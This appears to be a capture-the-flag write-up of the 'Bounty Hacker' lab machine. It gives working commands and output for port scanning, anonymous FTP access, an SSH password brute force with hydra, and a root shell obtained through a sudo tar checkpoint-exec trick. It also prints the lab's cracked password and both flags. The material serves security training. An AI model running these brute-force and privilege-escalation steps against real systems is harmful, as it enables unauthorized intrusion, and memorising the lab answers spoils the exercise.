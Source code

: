 #### 1. Scanning

<br />
<br />

```
nmap -Pn -A 10.10.123.121                                             130 ⨯
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-22 13:05 EST
Nmap scan report for 10.10.123.121
Host is up (0.056s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.170.47
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.83 seconds
```

There are three open ports: 21,22,80

<br />
<br />

#### 2. FTP

It is possible to login as `anonymous` without a password, so I proceed and find two files: `locks.txt` and `task.txt`

```
ftp 10.10.123.121
Connected to 10.10.123.121.
220 (vsFTPd 3.0.3)
Name (10.10.123.121:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.05 secs (8.9475 kB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.00 secs (577.4456 kB/s)
ftp> quit
221 Goodbye.
```

First one is a list of passwords and second:

```
 cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

There are no other ports and list is pretty small so it is good to run hydra and check if it is possible to access machine directly, without any reverse shells etc.

<br />
<br />

#### 3. Bruteforcing SSH with hydra

I run hydra hoping to crack `lin` and apparently it worked:

`hydra -l lin -P locks.txt  10.10.123.121 ssh`

`[22][ssh] host: 10.10.123.121   login: lin   password: RedDr4gonSynd1cat3`

so I ssh to machine and check `sudo -l` and see that lin can run `tar` as root, so it is basically finished :)

```
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
<br />
<br />

#### 4. Privesc to root

Firstly, I read `user.txt` flag:

```
 ls -al
total 12
drwxr-xr-x  2 lin lin 4096 Jun  7  2020 .
drwxr-xr-x 19 lin lin 4096 Jun  7  2020 ..
-rw-rw-r--  1 lin lin   21 Jun  7  2020 user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
THM{CR1M3_SyNd1C4T3}
```

Secondly, I go to GTFO bins to check how to escalate to root with tar and execute it as root:

```
lin@bountyhacker:~$ sudo -u root tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
THM{80UN7Y_h4cK3r}
# 
```

and read a final flag.